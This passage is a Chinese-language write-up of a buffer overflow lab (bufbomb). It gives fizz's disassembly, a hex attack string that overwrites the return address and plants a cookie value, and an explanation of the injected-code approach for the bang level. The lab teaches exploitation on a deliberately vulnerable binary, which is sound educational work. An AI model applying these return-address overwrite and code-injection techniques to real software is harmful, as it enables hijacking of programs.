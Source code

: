 ### 过程

```
08049444 <fizz>:
 8049444:	55                   	push   %ebp
 8049445:	89 e5                	mov    %esp,%ebp
 8049447:	83 ec 08             	sub    $0x8,%esp
 804944a:	8b 55 08             	mov    0x8(%ebp),%edx
 804944d:	a1 90 d1 04 08       	mov    0x804d190,%eax
 8049452:	39 c2                	cmp    %eax,%edx
 8049454:	75 22                	jne    8049478 <fizz+0x34>
```

fizz函数从栈中申请了0x8个字节，这个就是参数val的地址，只要在这8个字节写上自己的cookie就行了，cookie为0x6e6b5dca，fizz函数地址为0x8049444,所以

```
00 00 00 00 00 00
00 00 00 00 00 00
00 00 00 00 00 00
00 00 00 00 00 00
00 00 00 00 00 00
00 00 00 00 00 00
00 00 00 00 00 00
00 00 00 00 00 00 00
00 00 00 00
44 94 04 08
00 00 00 00 ca 5d 6b 6e
```

## 3. Level 2: bang[¶](https://comp3052.p.cs-lab.top/lab1/part2/#3-level-2-bang)

为了实现更高级的缓冲区攻击，攻击者会在精心构造的攻击字符串中嵌入实际的机器指令，并通过改写栈上的原返回地址指针，使其指向这些攻击机器指令的起始位置。当被攻击的函数（如getbuf）执行返回指令时，程序将不再返回至上层调用过程，而是转而执行攻击者植入的代码。

这种攻击方式赋予了攻击者极大的控制权，能够令被攻击程序执行任意操作。这些随攻击字符串一同放置在栈上的代码，被称为攻击代码或利用代码（exploit code）。然而，实施此类攻击颇具挑战性，因为攻击者需要确保攻击机器代码能够准确无误地放置在栈中的特定位置，并精确控制返回地址，使其精准指向攻击代码的起始点。

在bufbomb程序中，有一个bang函数，代码如下：

```
int global_value = 0;
void bang(int val)
{
    if (global_value == cookie) {
        printf("Bang!: You set global_value to 0x%x\n", global_value);
        validate(2);
    } else
        printf("Misfire: global_value = 0x%x\n", global_value);
    exit(0);
}
```

与Level 0和Level 1的实验目标相似，本实验级别的核心挑战在于诱导bufbomb程序跳过返回至test函数的步骤，转而执行bang函数的代码。为了实现这一目标，攻击代码必须精准执行以下关键步骤：首先，必须确保全局变量global_value被设置成与特定userid（即学号）相匹配的cookie值；紧接着，需将bang函数的地址精确无误地压入栈中；最后，通过执行一条ret指令，使程序从栈中弹出该地址并跳转到bang函数的起始位置，从而继续执行其内部代码。
